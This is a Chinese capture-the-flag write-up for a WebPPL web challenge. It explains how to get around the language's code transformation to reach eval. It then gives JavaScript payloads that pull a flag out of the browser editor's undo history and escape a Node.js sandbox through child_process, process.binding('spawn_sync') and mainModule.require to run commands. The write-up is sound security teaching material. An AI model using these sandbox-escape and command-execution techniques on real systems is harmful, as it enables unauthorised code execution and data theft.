# [Web] 概率题目概率过

- 命题人：xmcp
- 前端开发：300 分
- 后端开发：250 分

## 题目描述

<p>我们极为先进的概率编程语言已经完全超越了传统编程语言。</p>
<p>在传统编程语言中，每个 <code>if</code> 语句只能执行一个分支，因此逐个遍历所有程序状态需要指数的时间复杂度。在概率编程语言中，你会以为每个 <code>if</code> 语句可以同时进入两个分支，从而产生它不需要指数时间复杂度的错觉，但实际上它还是会逐个遍历所有程序状态，依然需要指数的时间复杂度。</p>
<p>为了解决理想与实际的矛盾，WebPPL 概率编程语言创新性地选择了 JavaScript 作为宿主语言。大家都知道，JavaScript 既可以在前端运行，也可以在后端运行，这就自然地引入了概率，使得你的 payload 在被观测之前既可能打的是前端，也可能打的是后端。运行一段 WebPPL 代码就像附身为原生孙悟空，手持如意时间棒，对我们的多元宇宙发号施令。后面忘了</p>
<p><em>↑ 上面这些怪话与解题方式并没有什么关联，就像许多其他题面一样</em></p>
<p><strong>总之，你可以提交一段 WebPPL 程序，然后选择在前端或者后端运行它。</strong></p>
<p><strong>提示：</strong></p>
<ul>
<li>本题跟概率编程没有什么关系。在设法实现 <code>eval</code> 后就可以不管 WebPPL 了，后面的部分是在环境中拿 Flag 的 JavaScript 编程题。</li>
<li>Flag 1：如果你的注意力不够集中，浏览器开发者工具的 Heap snapshot 功能或许可以帮助你。</li>
</ul>
<div class="well">
<p><strong>第二阶段提示：</strong></p>
<ul>
<li>Flag 1：前端使用的代码编辑器是 CodeMirror。</li>
<li>Flag 2：虽然你没有 <code>require()</code>，但是你有其他的好东西，甚至包括 <code>import()</code>。</li>
</ul>
</div>

**【网页链接：访问WebPPL网站】**

**[【附件：下载题目源码（web-ppl-src.zip）】](attachment/web-ppl-src.zip)**

**【终端交互：连接到题目】**

## 预期解法

### 拿到 eval

我们先玩一玩这个 WebPPL。发现它是一个基于 JavaScript 的概率编程语言，但我们完全不关心什么是概率编程语言，我们只想拿到 Flag。

既然它基于 JavaScript，我们先试着写点 JavaScript：



啊这是什么玩意？



啊这又是什么玩意？

稍微尝试即可发现一些端倪，它在运行我们的代码前，会进行一些 <del>糟蹋</del> 变换，使得我们很难接触到原生的 JavaScript 环境，各种语法也被搞得面目全非，比如不让用循环，也不让赋值（我去，函数式！）。如果你好奇它具体是怎么 <del>糟蹋</del> 变换的，可以这样看：



总之我们的第一个目标是拿到一个类似于 `eval` 这样的函数，能让我们的代码不经过它的糟蹋直接执行。这样写后续的利用会方便很多。

**注意到**我们虽然不能直接 `eval()`，但是可以用任何中间带点的形式去调用  `eval`，包括但不限于：

```javascript
window.eval(1);
globalThis.eval(1);
eval.call(null, 1);
Function.constructor('return 1').call();
globalStore.eval = eval; globalStore.eval(1);
```

什么，注意不到？那可以去看看 [WebPPL 的文档](https://webppl.readthedocs.io/en/master/language.html#calling-javascript-functions)，文档解释了所有形如 `foo()` 的函数调用都会被理解为对概率函数的调用，因此在执行前都会被它糟蹋；而形如 `foo.bar()` 这样的中间带点的方法调用则被认为是使用 JavaScript 库函数，不会被糟蹋。在文档的结尾，它还贴心地提供了一个 `_top`（是 `window` 的别名）来帮我们调用全局函数：



所以，最清真的拿到 eval 的方式应该是 `_top.eval()`。

### Flag 1

拿到 eval 之后，我们就可以在网页里执行任意代码，从而获取上一条命令留下的 Flag……等下，执行我们的代码时，上一条命令的结果已经被清空了，从哪拿 Flag？

这时只需**注意到** Flag 的内容曾经被输入到了文本框里，而这个文本框用的编辑器是 CodeMirror，它可以直接获取历史记录：



所以可以构造出如下 payload：

```javascript
document.querySelector('.CodeMirror').CodeMirror.doc.history.done.forEach(d=>{
    if(d.changes)
        d.changes.forEach(c=>{
            let t = c.text.join('');
            if(t.includes('flag{'))
                document.title = t;
        });
});
```

再把这些代码套进我们已经获得的 eval 里即可。当然，用其他的姿势，比如不停 `undo`，效果也是一样的。

什么，注意不到？为了提升注意力，我们可以利用浏览器开发者工具的 Heap snapshot 功能检查 JS 环境里究竟有什么东西。我们直接搜索 flag 字符串：



然后底下 “Retainers” 那一栏显示的就是所有可以到达这个字符串的路径。其中有一条路径特别有意思，因为它写着：



我去，*User object reachable from window!* 这不就爽了吗。顺着这条链里面的图标看下去，正是我们刚才构造的那一坨 `document.querySelector('.CodeMirror').CodeMirror.doc.history.done`。

### Flag 2

与上一个 Flag 相同，我们可以轻松拿到 `eval`。只不过这次我们跑到了 NodeJS 环境里面，需要执行系统命令来拿 Flag。执行命令？这个简单：



跑一下发现，哦豁，没有 `require`。不过**注意到**我们虽然没有 `require`，但是有 `import`。所以可以如法炮制：

```javascript
import('child_process').then(m=>m.exec('/printflag2', console.log));
```

发现虽然它报了个错，但 Flag 实际上也正常输出了。这里报错的原因是那个读 flag 的 C 程序的 `main` 函数没写返回值，所以它调用的 `puts` 的返回值被传递为了 `main` 的返回值。C 语言，很神奇吧！



什么，注意不到 `import`？没关系，实际上出题的时候我也没注意到。但既然都拿到 `eval` 了，这题不就是个小号的 NodeJS 沙箱逃逸吗？随便在网上搜搜师傅们做完沙箱逃逸是怎么利用的：



直接点开 [NetSPI 这个博客](https://www.netspi.com/blog/technical-blog/web-application-pentesting/escape-nodejs-sandboxes/)，它说可以用 `process.binding` 调用 NodeJS 底层的 API，从而手搓出来各种标准库：



然后进一步给了一个 [Gist](https://gist.github.com/CapacitorSet/c41ab55a54437dcbcb4e62713a195822) 链接，里面有手搓出来的 `spawnSync` 函数，用来执行命令：



所以，出题时我抄来的预期解是这样的：

```javascript
eval.call(global,
    "spawn_sync = process.binding('spawn_sync'); normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};};"+
    "(function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);"+
    "isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;})('/printflag2', []).stdout.toString()"
);
```

## 其他解法

这题的自由度非常高，因此各种选手都搞出了各种各样的解法。

比如，Flag 1 未必要拿到 eval，只需要保证你的 EXP 所有函数调用都带点就行。比如这样：

```javascript
_.assign(document, {title: JSON.stringify(document.querySelector(".wpedit")[Object.keys(document.querySelector(".wpedit"))[0]]._currentElement._owner._instance.refs.editor.getCodeMirror().doc.history.done[15]) });
```

也有选手**注意到** Flag 1 本来在闭包里的 `compileCache` 可以通过奇技淫巧拿到，令人震惊：

```javascript
const aaa = wpEditor.setup(document.querySelector('.btn'), {language:'javascript'});
aaa.refs.editor.getCodeMirror().setValue('document.title=Object.keys(compileCache)[0];')
aaa.runCode();
```

也有人直接给编辑器发 ctrl+Z 撤销的。同学你是不是刚做完 web-crx 回来？

```javascript
let textarea = document.querySelector('.CodeMirror textarea');
textarea.dispatchEvent(new KeyboardEvent('keydown', {
    key: 'z',
    code: 'KeyZ',
    keyCode: 90,
    ctrlKey: true,
    shiftKey: false,
    altKey: false,
    metaKey: false,
    bubbles: true,
    cancelable: true
}));

```

Flag 2 也可以从 `process.mainModule` 里拿到 require，比如：

```javascript
process.mainModule.require("child_process").spawnSync(...)
```

